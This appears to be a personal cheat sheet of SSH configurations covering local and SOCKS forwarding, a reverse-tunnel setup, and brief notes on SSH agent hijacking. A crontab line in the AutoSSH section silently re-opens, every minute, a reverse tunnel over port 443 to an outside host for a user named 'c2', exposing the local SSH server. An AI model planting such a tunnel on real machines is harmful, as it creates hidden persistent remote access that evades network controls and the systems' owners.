 # SSH

## LPF

```
Host rocky9.ephemeric.lan
    User robertg
    Hostname 192.168.0.102
    #IdentityFile ~/.ssh/id_rsa
    # Option '-L'.
    LocalForward 127.0.0.1:8080 127.0.0.1:8080
    ServerAliveCountMax 3
    ServerAliveInterval 15
    ExitOnForwardFailure yes
    # Option '-f'.
    #ForkAfterAuthentication yes
    # Option '-N'.
    #SessionType none
```
    
## SOCKS

```
export http_proxy=socks5[h]://127.0.0.1:8080 https_proxy=socks5[h]://127.0.0.1:8080
```

```
Host socks.ephemeric.lan socks
    Hostname 192.168.0.3
    ForkAfterAuthentication yes
    DynamicForward localhost:8080
    SessionType none
```

## AutoSSH

### Server: /etc/ssh/sshd_config.

```
Match User c2
  AuthenticationMethods   publickey
  HostbasedAuthentication no
  RhostsRSAAuthentication no
  GSSAPIAuthentication    no
  PasswordAuthentication  no
  AllowAgentForwarding    no
  GatewayPorts            no
  X11Forwarding           no
  AllowTcpForwarding      yes
  Banner                  none
  ForceCommand            /sbin/nologin
  PermitOpen              172.16.7.131:2224
```

### Client: /etc/ssh/sshd_config.

```
ClientAliveInterval 20
ClientAliveCountMax 3
AllowUsers c2@127.0.0.1
```

Crontab.

```
MAILTO=""
* * * * * (ssh -p 443 -fNR 127.0.0.1:4450:127.0.0.1:22 c2@197.15.100.245 &>/dev/null &)  
```

## SSH Agent Attacks

- ssh-agent remote host session hijacking (/tmp/ssh-agent/...)
- ssh-agent attacks?
- ProxyJump => sshd, localhost => sshd => TCP forward
- compromised host and /usr/sbin/sshd?
